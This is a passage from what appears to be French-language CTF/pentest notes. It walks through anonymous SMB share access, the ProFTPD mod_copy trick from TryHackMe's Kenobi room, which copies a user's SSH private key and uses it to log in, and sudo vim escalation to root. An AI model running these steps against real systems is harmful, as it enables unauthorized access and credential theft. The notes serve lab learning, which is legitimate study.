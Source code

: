 [Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
### SMB

Lets inspect one of the shares :
```bash=
smbclient //<ip>/anonymous
```

You can recursively download the SMB share too. Submit the username and password as nothing.
```bash=
smbget -R smb://<ip>/anonymous
```

### ProFTPD module mod_copy

Exemple : [Kenobi Room](https://tryhackme.com/room/kenobi)

Prérequis : port 21

    ```bash=
    PORT   STATE SERVICE
    21/tcp open  ftp

    ┌──(root💀2d2359796bd4)-[/mnt/kenobiNFS]
    └─# nc 10.10.253.117 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.117]
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful

    mkdir /mnt/<name_folder>
    sudo mount <ip_target_machine>:/var /mnt/<name_folder>
    ls -la /mnt/<name_folder>

    cp /mnt/<name_folder>/tmp/id_rsa .
    sudo chmod 600 id_rsa
    ssh -i id_rsa kenobi@10.10.253.117
    ```

[Source](http://www.proftpd.org/docs/contrib/mod_copy.html)
## Escalade de privilège [GRAAL](https://tryhackme.com/room/linuxprivesc)

### Exemple TryHackMe

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    ```bash=
    $ sudo -l
    ans : User mitch may run the following commands on Machine:
    ans : (root) NOPASSWD: /usr/bin/vim
    $ sudo vim -c ':!/bin/sh'
    # ^[[2;2R^[]11;rgb:3030/0a0a/2424^G
    ans : /bin/sh: 1: ot found
    ans : /bin/sh: 1: 2R: not found
    # whoami
    ans : root
    ```
